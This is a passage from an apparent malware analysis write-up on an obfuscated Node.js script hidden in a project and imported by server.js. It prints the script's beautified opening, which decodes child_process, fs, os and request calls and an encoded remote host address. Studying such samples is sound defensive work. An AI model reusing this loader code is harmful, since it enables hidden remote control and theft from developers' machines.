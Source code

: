 I haven't looked into the original workings of the app, but I assume this is so that when this is imported in 
`server/server.js`{: .filepath}, it actually does something other than running the obfuscated script.

From now on, we will call this file **Stage 1**

## Stage 1
> md5: c1c1c5b2a76a3d463cb4f7c22c88bbe5

> SHA1: 0c0c69335734a315a49103e7252ae9d872289e30

> SHA256: e6aa745515463388b9fcf7ad694ecec17c12cf4bf622412e847817e85e48c041

> [Virustotal](https://www.virustotal.com/gui/file/e6aa745515463388b9fcf7ad694ecec17c12cf4bf622412e847817e85e48c041): 21 / 59 


### Recap:
- We got this file from LinkedIn
- It is imported by *server.js*
- It's *obfuscated javascript* (nodejs)

### The encoded strings 
Now that we got through the boring part, it's time for the **fun part**, let's analyze what this script does! :D

I opted for static analysis at the start, this is partially because I want to improve my skills and partially because I'm more familiar with this.

The first thing we should do, is separate this file from the others, and run [js beautify](https://beautifier.io/) on it.

Here is the **beginning of the code** we get back (it's **285 lines** actually)

```js
Object.prototype.toString, Object.defineProperty, Object.getOwnPropertyDescriptor;
const t = "base64",
    c = "utf8",
    a = require("fs"),
    r = require("os"),
    e = a => (s1 = a.slice(1), Buffer.from(s1, t).toString(c));
pt = require(e("zcGF0aA")), rq = require(e("YcmVxdWVzdA")), cr = require(e("aY3J5cHRv")), ex = require(e(
    "aY2hpbGRfcHJvY2Vzcw"))[e("cZXhlYw")], hs = r[e("caG9zdG5hbWU")](), pl = r[e("YcGxhdGZvcm0")](), hd = r[e(
    "ZaG9tZWRpcg")](), td = r[e("cdG1wZGly")](), tp = r[e("AdHlwZQ")]();
let l;
const n = a => Buffer.from(a, t).toString(c),
    Z = () => {
        let t = "MTQ3LjEyNCaHR0cDovLw4yMTIuODk6MTI0NA==  ";
        for (var c = "", a = "", r = "", e = "", l = 0; l < 10; l++) c += t[l], a += t[10 + l], r += t[20 + l], e += t[
            30 + l];
        return c = c + r + e, n(a) + n(c)
    },
    s = t => t.replace(/^~([a-z]+|\/)/, ((t, c) => "/" === c ? hd : `${pt[n("ZGlybmFtZQ")](hd)}/${c}`)),
    h = "cnNqNg6",
    m = "Z2V0",
    $ = "Ly5ucGw",
    o = "d3JpdGVGaWxlU3luYw",
    d = "L2NsaWVudA",
    G = n("ZXhpc3RzU3luYw");

function b(t) {
    const c = n("YWNjZXNz" + "U3luYw");
```